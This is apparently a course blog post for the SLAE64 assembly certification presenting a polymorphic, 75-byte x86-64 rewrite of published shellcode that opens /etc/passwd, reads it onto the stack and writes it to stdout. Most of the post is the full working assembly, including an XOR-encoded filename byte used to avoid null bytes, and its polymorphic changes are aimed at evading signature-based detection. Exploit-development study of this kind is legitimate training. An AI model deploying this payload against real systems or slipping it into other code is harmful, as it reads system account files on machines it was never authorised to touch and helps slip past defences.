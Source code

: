 # Polymorphic version of Mr. Un1k0d3rs 'read /etc/passwd/' shellcode

Orig source:
```
http://shell-storm.org/shellcode/files/shellcode-878.php
```

My polymorphic version of the shellcode reduces the size by 7 bytes and keeps the same functionality as the original code.

## Changes
1. Usage of smaller instructions such as ```cdq``` to zero out rdx or ```push; pop``` instead of ```mov```
2. Optimized usage of syscall's return values
3. Reuse of nulled registers to avoid xoring others

## Asm
```
BITS 64
; Polymorphic version of Mr. Un1k0d3rs /etc/passwd read shellcode
; Orig Size: 82 bytes
; Polymorphic size: 75 bytes

global _start

section .text

_start:
xor rax, rax
mov rsi, rax ; null out rsi
cdq ; null out rdx
inc al
inc al
jmp _push_filename

_readfile:
; syscall open file
pop rdi ; pop path value
xor byte [rdi + 11], 0x42
syscall

; syscall read file
xchg rdi, rax ; put new fd in rdi
mov rax, rdx ; rdx is still zero and can be used to null out rax
mov dx, 0xfff; size to read
sub sp, dx ; Make some space on the stack
push rsp
pop rsi ; rsi points to buffer on stack
syscall

; syscall write to stdout
mov rdx, rax ; rax contains the number of read bytes
xor rdi, rdi
push rdi
pop rax ; avoid xor rax,rax
inc rdi ; rdi contains stdout
inc al ; SYS_write
syscall

; syscall exit
xor rax, rax
add al, 60
syscall

_push_filename:
call _readfile
path: db "/etc/passwdB"
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE64-1581
